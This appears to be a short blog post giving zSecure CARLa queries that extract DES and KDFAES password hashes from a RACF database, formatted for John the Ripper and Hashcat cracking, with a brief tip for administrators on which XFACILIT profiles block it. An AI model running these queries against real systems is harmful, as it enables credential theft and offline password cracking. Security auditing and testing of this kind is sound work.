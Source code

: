 ```yaml
---
layout: post
title: Extracting passwords using zSecure
date: 2018-04-24 21:54 +0100
tags: RACF zSecure
---
```

zSecure is an excellent product that I [heartily endorse](https://www.youtube.com/watch?v=BfOmkqz06SY).  

Here is some CARLa to pull out password hashes from a RACF DB and write out the results in JohnTheRipper and/or Hashcat formats. Just delete the relevant lines to suit your needs.  

Note that this requires a RACF database to be allocated in SE.1 and will not work with a zSecure unload (since they don't contain passwords).  

**Note for RACF admins:** Define `XFACILIT` profiles of `CKG.CMD.FIELD.PASSWORD` and `CKG.CMD.FIELD.PWDX` with `UACC(NONE)` to prevent this from working.  

To extract DES hashes:  

```
newlist nopage
  select  segment=base has_password=yes
/* JtR format */
  sortlist KEY(0) | ":$racf$*" | key(0) | "*" | password(hex,0)
/* Hashcat format*/
  sortlist "$racf$*" | key(0) | "*" | password(hex,0)
```

And for KDFAES hashes:  

```
newlist nopage
  select  segment=base has_password=yes
/* JtR format */
  sortlist KEY(0) | ":$racf$*" | key(0) | "*" | pwdx(hex,0) | ,
   password(hex,0)
/* Hashcat format*/
  sortlist "$racf$*" | key(0) | "*" | pwdx(hex,0) | ,
   password(hex,0)
```
